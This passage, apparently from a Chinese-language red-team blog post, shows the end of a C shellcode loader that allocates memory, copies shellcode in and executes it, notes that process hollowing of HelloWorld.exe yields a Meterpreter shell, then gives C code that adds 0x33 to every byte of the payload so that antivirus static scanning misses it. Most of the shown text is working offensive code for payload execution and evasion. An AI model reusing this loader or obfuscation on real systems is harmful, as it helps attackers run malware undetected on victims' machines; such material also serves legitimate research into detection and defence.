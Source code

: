 ```
        MessageBoxA(NULL, "error", "VirtualAlloc", MB_OK);    
    if (!(memcpy(p, shellcode1, sizeof(shellcode1))))    
        MessageBoxA(NULL, "error", "memcpy", MB_OK);    
    CODE code =(CODE)p;       
    code(); 

    return 0;
}
```

执行ProcessHollowing.exe，加载HelloWorld.exe，弹回shell，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-30/3-3.png)

由于使用了Meterpreter，HelloWorld.exe会被杀毒软件静态查杀，这里做一个简单的加解密即可绕过

对HelloWorld.exe逐字符作0x33加，源代码如下：

```
#include <windows.h>

char *SoucePath = "c:\\1\\HelloWorld.exe";
char *DesPath = "c:\\1\\test\\HelloWorld.exe";

int _tmain(int argc, _TCHAR* argv[])
{
    HANDLE hFile = CreateFileA
    (
        SoucePath,
        GENERIC_READ, 
        0, 
        0, 
        OPEN_ALWAYS, 
        0, 
        0
    );
    if (hFile == INVALID_HANDLE_VALUE)
    {
        printf("Open file error\n");
        return 0;
    }
    DWORD dwSize = GetFileSize(hFile, 0);
    PBYTE pBuffer = new BYTE[dwSize];
    DWORD dwBytesRead = 0;
    ReadFile(hFile, pBuffer, dwSize, &dwBytesRead, 0);
    PBYTE pBuffer2 = new BYTE[dwSize];
    PBYTE pBuffer3 = new BYTE[dwSize];
    for(DWORD i=0;i<dwSize;i++)
    {
        pBuffer2[i]=pBuffer[i]+0x33;
    }
/*
    for(DWORD i=0;i<dwSize;i++)
    {
        pBuffer3[i]=pBuffer2[i]-0x33;
    }       
*/  
    HANDLE hFile2 = CreateFileA
    (
        DesPath,
        GENERIC_WRITE, 
        0, 
        0, 
        CREATE_ALWAYS, 
        FILE_ATTRIBUTE_NORMAL, 
```